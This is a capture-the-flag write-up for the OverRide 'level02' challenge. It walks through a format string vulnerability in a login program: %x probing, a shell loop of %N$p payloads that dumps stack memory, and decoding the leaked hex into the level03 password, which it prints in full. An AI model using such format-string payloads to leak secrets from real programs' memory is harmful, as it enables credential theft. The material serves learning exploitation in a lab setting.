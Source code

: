 # level02

### First analysis

Let's first analyse the code and checksec of this level, so first with the checksec:

```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```

As we can see there is the minimum security on this binary, no RELRO, so GOT overwrite would be possible and NX is disabled so the stack is executable, shellcode in env variable would be possible too. Let's now analyse the code.

```c
int main(void) {
    char    password[41];
    char    username[96];
    char    input_password[96];
    int     length;
    FILE    *fd;
    
    memset(password, 0, 41);
    memset(username, 0, 96);
    memset(input_password, 0, 96);

    fd = fopen("home/users/level03/.pass", "r");
    if (!fd) {
        fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
        exit(1);
    }

    length = fread(password, 1, 41, fd);
    password[strcspn(password, "\n")] = '\0';

    if (length != 41) {
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        exit(1);
    }
    fclose(fd);

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\\");
    puts("| You must login to access this system. |");
    puts("\\**************************************/");
    
    printf("--[ Username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = '\0';

    printf("--[ Password: ");
    fgets(input_password, sizeof(input_password), stdin);
    input_password[strcspn(input_password, "\n")] = '\0';
    puts("*****************************************");

    if (strncmp(password, input_password, 41) == 0) {
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
        return 0;
    }

    printf(username);
    puts(" does not have access!");
    exit(1);
}
```

There are a lot of security measures taken in this program such as checking the '\0' on every input or using fgets() with a sizeof to be sure not to go over the buffer size. However one thing had been forgotten, as we can see a "printf(username);" is used, which represent a Format String Vulnerability. This means that we can read the stack with this kind of exploit and write using %n at any address. Even after knowing that, we can notice that the password of level3 is read and stored into password buffer, which mean that coupled with the FSV, we could read the password buffer and access to the password without needing to write anything anywhere. Let's first check confirm that this vulnerability works:

```sh
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %x %x
--[ Password: 
*****************************************
ffffe500 0 does not have access!
```

We place %x into username field, because it is the one used in the FSV and it is interpreted, so we indeed have a Format String Vulnerability.

### Solution

The buffer of username is limited, we have 41 characters which mean we can print 20 stack memory slot. Maybe it won't be sufficient to print fully the password buffer, so we did a command that prints the 100 firsts stack memory slot:

```sh
for (( i = 1; i < 100; i++ )); do   echo "%$i\$18p" | ./level02 | awk '/does not have access/'; done
```

What it does is using this synthax %4$18p for example, that prints the 4th memory space of the stack with a size of 18. We then only selects the lines that contains "does not have access" in order to avoid all the prompts and puts() made by the program, and we do this from 1 to 100.

```sh
level02@OverRide:~$ for (( i = 1; i < 100; i++ )); do   echo "%$i\$18p" | ./level02 | awk '/does not have access/'; done
    0x7fffffffe500 does not have access!
             (nil) does not have access!
             (nil) does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
    0x7fffffffe6f8 does not have access!
       0x1f7ff9a08 does not have access!
[...]
       0x100000000 does not have access!
             (nil) does not have access!
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!
          0xfeff00 does not have access!
  0x70383124383225 does not have access!
[...]
      0x2900000000 does not have access!
          0x602010 does not have access!
             (nil) does not have access!
    0x7ffff7a3d7ed does not have access!
[...]
```

Here we only select parts that allows us to explain what we see. The padding allows us to read things more clearly. So first we can see these "2a2a2a2a2a2a2a2a", this is just the '*' char repeated again and again, probably what's printed by the program after input_password. There are a bunch of (nil) addresses, then we can see 5 addresses that doesn't look like actual addresses. and at the end we can see some elements that looks like some actual addresses. Let's focus on these weird elements that doesn't look like addresses, if they correspond to ascii characters, it probably means we are in the right direction. By using a converter we get that:

```
756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394dfeff00

=

unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9Mþÿ
```

These hexadecimal elements are indeed corresponding to ascii characters besides the 3 lasts ones. We can try to enter this as a password (removing the 3 lasts chars) for level03 but it won't work. Let's take again the part of the memory we are analysing:

```sh
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!
          0xfeff00 does not have access!
```
We know that in c, a string is null ended, so it ends with '\0', in hexadecimal '00', which could correspond to the last line after the feff. Why after ? Because we have to remember that this machine is in little endian format, so we have to read the addresses upside down if we want to read them correctly. So let's write a little code that put every element in big endian, then translate it in ascii. You can find this file [here](https://github.com/kbarbry/OverRide/blob/main/level02/Resources/reverse_translate.c). Then the password is printed and we can use it:

```sh
level03@OverRide:/tmp$ gcc -std=c99 reverse_translate.c 
level03@OverRide:/tmp$ ./a.out 
Original: 0x756e505234376848
ASCII: Hh74RPnu

Original: 0x45414a3561733951
ASCII: Q9sa5JAE

Original: 0x377a7143574e6758
ASCII: XgNWCqz7

Original: 0x354a35686e475873
ASCII: sXGnh5J5

Original: 0x48336750664b394d
ASCII: M9KfPg3H

Final ASCII: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
level03@OverRide:/tmp$ su level03
Password:
```

## Important doc

[Hex to Ascii converter](https://www.rapidtables.com/convert/number/hex-to-ascii.html)
